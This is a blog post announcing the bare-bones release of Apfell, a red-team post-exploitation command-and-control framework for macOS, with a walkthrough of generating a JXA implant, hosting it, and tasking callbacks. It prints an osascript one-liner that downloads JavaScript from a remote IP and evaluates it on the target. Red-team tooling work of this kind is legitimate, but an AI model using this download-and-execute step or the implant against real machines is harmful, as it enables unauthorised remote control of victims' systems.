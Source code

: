 ```yaml
---
title: 'Bare-Bones Apfell server code release'
date: 2018-07-04
permalink: /posts/2018/07/bare-bones-apfell-server-code-release/
tags:
  - Mac
  - Red Teaming
  - Database
  - Postgres
  - Web
---
```

It's been a long time since my last post, but it's finally time for the bare-bones Apfell server code release. There will also be a drop of a bare-bones Apfell implant to go with it and an accompanying blog series coming soon talking about design decisions, future ideals, and updates.

I've added a few more components to the bare-bones release to round it out and make it at least somewhat usable. Specifically:
*  Payloads - JXA
   *  I created the ability to use the base JXA template, swap in your own callback interval and server/port
*  Attacks - Host File
   *  I created the ability for the server to spin off python subprocesses to host files with user defined directories and ports to server up the JXA implants
*  API - CommandLines
   *  I created a relatively simple way to display examples command lines and explanations for the RESTful interfaces exposed by the server
*  API - apfell-jxa help
   *  I added in a little bit of information about the different basic commands available in the jxa implant and what the differences are
   
Before I post the link for the apfell code, we should take one more walkthrough for how information flows between all the components.

You can pip install the requirements.txt document to get all of the necessary python libraries, then run the setup.sh script to install and setup the postgresql database.
Inside of the main \_\_init\_\_.py file, you'll find a few things for you to customize. Specifically, the db_user, db_pass, and server_ip address should all be updated for your environment.
Then, simply run `python server.py` and you're up and running!

Open up a browser and navigate to the ip:port you just specified. You won't have an account yet, so click `Click to Register!` and create an account. When you log in, you'll be welcomed by a screen like the following:
![alt text][apfell-welcome-screen]

Click over to payloads and JXA (this is currently the only payload available, but there will be more coming soon). Obfuscation is an example of something that's hopefully coming soon, but right now that checkbox does nothing. Fill out all of the fields and click `Create Payload` to create your first apfell-jxa payload.
Specify the callback host and port to be where you will end up hosting this file. We'll do that part next. I give you three possibilities for how to execute the file depending on how you plan on getting the payload over to the remote system. 
Apfell is a post-exploit system, so it's up to you to find the initial access vector, then you can start using this.
![alt text][apfell-create-jxa]

The next main step is to host this file somewhere. I have a lot of ideas for how to display this information and save it off, but it's not required for the initial bare-bones release. If you go to `Attacks-Host File`, you'll just see some basic information. The main way to work with this right now is through the RESTful API.
For our example, we already have Apfell running on port 80, so lets host this file on port 8080. It's pretty simple with the RESTful API:

`appy@ubuntu:~$ curl -X POST -d '{"port":8080, "directory": "/home/appy/Desktop/"}' http://localhost/api/v1.0/attacks/host_file`

We can confirm this is running either with another query or from the browser by hitting the API:
![alt text][apfell-view-web-servers]

Now, we can go over to the target macOS box, open up the Terminal.app, and run the following code:
`osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119/example.js')),$.NSUTF8StringEncoding)));"`

Now you can click over to `Operations -> Callbacks` and see our new callback!
![alt text][apfell-new-callback]

click on `Interact` to have a new tab pop up that you can select. You'll also notice when you select this tab that the box at the very bottom of the screen changed to reflect the information about the current tab. This is where you can submit tasks for the apfell-jxa implant.
For example, we can do a few different kinds of tasks, and they will illustrate the output format for us:
![alt text][apfell-tasking]

There are three types of operations for the current apfell-jxa implant - shell commands, javascript commands, and deepunwrapped javascript commands (these are the ones utilizing the ObjectiveC-JavaScript bridge). The last one is potentially the most powerful, but also the most confusing.
Using the ObjectiveC bridge, I called and ObjectiveC function to get the current list of names my host has. The `js` command can also run these commands, but if the resulting type is an ObjectiveC type, you'll have issues getting anything back. The unwrap (or deepunwrap) capabilities allows us to change standard datatypes
back from the ObjectiveC world to the normal world.

When you're done working with an implant, you can task it to exit and remove it from your screen. When you do this, I mark the implant as no longer active, but I keep it in the database. I do this so that when I write a report-generating feature, you'll still have all the info from all of the implants spawned during an operation, but you don't need to leave them cluttering up your view.
If you simply click the `Hide Tasks` option for an implant, all that does is hide the bottom level tab from your view so things are a little cleaner. 
`Keystrokes` and `Screenshots` are currently placeholders, but are on my laundry list of things to add to the next release.

If you want information on the RESTful command-line interactive capability of Apfell, go to `API -> CommandLines`. 
![alt text][apfell-api-cli]

Lastly, there's a little bit of documentation on the three commands for apfell-jxa that I already mentioned under the `API -> apfell-jxa help` dropdown.

Like I said, this is a pretty bare-bones release, but illustrates everything working together through the process of making a working framework.
Now, that was the UI and a little bit of the RESTful interface, but how does the information actually flow for all of that? It seems like a lot of moving pieces based on what I covered in the previous blog posts, but it's not too crazy.

When the implant initially calls home, it sends a RESTful HTTP POST request to the server with some basic information. This information is then stored in the postgres database. If you don't have the browser open, the process stops there until you manually query it with the other RESTful APIs.
If you do have the browser open though, when you go to the `Operations -> callbacks` page, you're opening a few websockets back to the database and requesting all of the relavent information about the current callbacks, and asking to be notified if there are any updates. 
When you do get a new callback, a callback checks for new tasking, or some status on your callback changes, this information gets pushed asynchronous from the database through the web server up to your browser. This same process happens with any tasking and responses. You can then interact with the dynamically generated information for that callback in the browser.
When you want to task the implant, your commands are actually just RESTful queries back to the server, which saves the information in the database. Two things now happen:
*  There was a change in the database, so that change is pushed back up to your browser. This means that I purposefully don't immediately display your tasking to you. I wait until it's confirmed by the database. I do this because of this next part.
*  Now that your tasking is in the database, the next time the implant checks in, it'll get that tasking and set the status of the task to in progress. This way you're only seeing what's registered in the database. This helps keep everybody on the same page with each other and the implants.

I didn't want a scenario when it looks like you task something on your screen, but somehow the connection to the server is dead. You'll only see the tasking if it's to the point where the implant can actually see it. Similarly, I keep track of the progress of tasking via the RESTful APIs. I don't display this to the user since it might be a bit much, but if you query the tasks via the API, you'll see that their status is either `submitted`, `processing`, or `completed`. 

See, not too crazy. The hardest part for me to learn has been all of the web aspects. I've never done web programming before, so trying to make sure that the interfaces you see for the callbacks is all dynamically generated and updated in real time without having to refresh has been an interesting challenge.
One of the next big things for me to tackle is getting proper authentication and encryption throughout the process. Since this was all new to me, I wanted to make sure I could get the basics down before starting to add complexity.


[apfell-welcome-screen]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-welcome-screen.JPG "Apfell Welcome Screen"
[apfell-create-jxa]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-create-jxa.JPG "Apfell Create JXA Payload"
[apfell-view-web-servers]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-view-web-servers.JPG "Apfell View Web Servers"
[apfell-new-callback]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-new-callback.JPG "Apfell New Callback"
[apfell-tasking]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-tasking.JPG "Apfell Tasking"
[apfell-api-cli]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-api-cli.JPG "Apfell API CLI Examples"
